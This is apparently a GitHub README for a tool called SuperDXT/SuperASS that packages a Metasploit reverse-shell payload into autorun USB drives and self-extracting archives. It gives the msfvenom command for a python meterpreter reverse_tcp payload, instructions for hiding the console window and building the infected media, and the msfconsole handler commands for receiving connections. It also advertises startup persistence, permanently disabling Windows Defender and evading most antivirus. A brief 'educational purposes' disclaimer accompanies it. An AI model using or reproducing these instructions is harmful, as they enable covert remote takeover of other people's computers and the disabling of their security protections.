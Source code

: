 
<h1 align="center">SuperDXT v1.0</h1>
<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-green?style=for-the-badge">
  <br>
  <br>
  <img src="https://img.shields.io/badge/Author-AbdulazizDXT-green?style=flat-square">
  <img src="https://img.shields.io/badge/Made%20in-Oman-green?style=flat-square">
  <img src="https://img.shields.io/badge/Powerd%20BY-Python%20&%20Metasploit-green?style=flat-square">
</p>

## [√] Description :

***The best tool to create a USB gadget or a zip file infested with a virus with a quick kill protection with Metasploit!***

## [+] Installation

##### The SuperASS project is set up first in Kali Linux, and then the virus boot is set up in Windows :

* You can set up the project initially in Termux, but the remaining steps in preparing a zip file or creating a boot disk require Windows.

 - For KALI Linux :
    - ```git clone https://github.com/AbdulazizDXT/SuperASS```
    - ```cd SuperASS```
    - ```chmod +x install.sh```
    - ```./install.sh```

#### Or, directly run :
```
git clone https://github.com/AbdulazizDXT/SuperASS ;cd SuperASS ;chmod +x install.sh ;./install.sh

```
## [+] Usage

1. Run the script
2. SuperASS file window will open automatically after installation
3. Open Terminal and Type "msfvenom -p python/meterpreter/reverse_tcp LHOST={YourIPAddres} LPORT={Your Port} -o Update.py
4. ReName file --> "Update.py" to "Update.pyw" For hide python console
5. Copy the Update.pyw file to the Open SuperASS window and click Replace
6. Now the file must be transferred to the Windows system to start creating an exe file for the virus in the USB or zip files

- If you want to test the penetration outside the network, you must open a port for the IP address of your device and also put the IPv4 address and the port that you opened in step 3.  You want to receive the connection be the same port you set. IPv4 Outside Network Here : https://whatismyipaddress.com/

## [+] Use SuperASS In USB AutoRun :

1. Download USB AutoRun Creator From : https://www.samlogic.net/demos/files/USBAC-DEMO-ENG-SETUP.exe
2. Install & Open after Installation 
3. Now the previously modified SuperASS file should be present in your Windows system
4. After you run the autorun program, choose the file MIN (1).exe & Then choose the USB disk & click create
5. Now copy all the contents of the SuperASS file to the USB and then remove it, but beware not to put it again on your device, it may kill the protection completely and make it difficult to restore it, except by upgrading to the new versions of Windows such as the Insider version

- Notice : When you use USB Autorun Creator, all USB contents will be deleted, be careful!

## [+]  Use SuperASS In Zip File AutoRun :

1. Download WinRAR From : https://www.win-rar.com/download.html?&L=0
2. Install & Check [√]
3. Go to the SuperASS file and then right click and click on Add to archive &  Click OK to start pressing... 
4. After compressing the file, open it, then choose the "SFX" option, then "Advanced SFX Option" & Setup Option
5. Type "MIN (1).exe" & Press OK & OK to Exit
6. Now you can use zip file for hacking / Do not try on your device

## [+] How to Connect Virus/Payload :

- You must have a metasploit formwork with you (Kali/Ubuntu/Fedora/Termux...)
 * Open Terminal/Termux
```
msfconsole

use exploit/multi/handler

set payload python/meterpreter/reverse_tcp 

set LHOST <YourIPAddres>

set LPORT <YourPort>

exploit

```
- Now you can use a USB or ZIP to hack and receive the connection from the Metasploit tool

## [√] Features:

 - Under 10s to install payload in target device
 - connect Metasploit to hacking
 - Python Quiet install
 - autorun payload in startup windows
 - kill windows defender forever
 - {5 security vendors and no sandboxes flagged this file as malicious} in ViursTotal <57/5>
 - This is the antivirus that detected the virus {Antiy-AVL, GData, Microsoft, ClamAV ,Ikarus}
 - Soon a copy will be released that disables all antivirus programs!

## [+] Something very important!

- This tool is developed for educational purposes. Here he explains how hacking works. If anyone wants to gain unauthorized access to someone's devices, they can try it at their own risk. You have your own responsibilities and you are responsible for any damage or violation of laws by this tool. The author is not responsible for any misuse of SuperASS!
 
## [+] I'm Here!


- [![Github](https://img.shields.io/badge/Github-AbdulazizDXT-green?style=for-the-badge&logo=github)](https://github.com/AbdulazizDXT)

- [![Gmail](https://img.shields.io/badge/Gmail-AbdulazizDXT-green?style=for-the-badge&logo=gmail)](mailto:Abdulazizalhasaniwin@gmail.com)

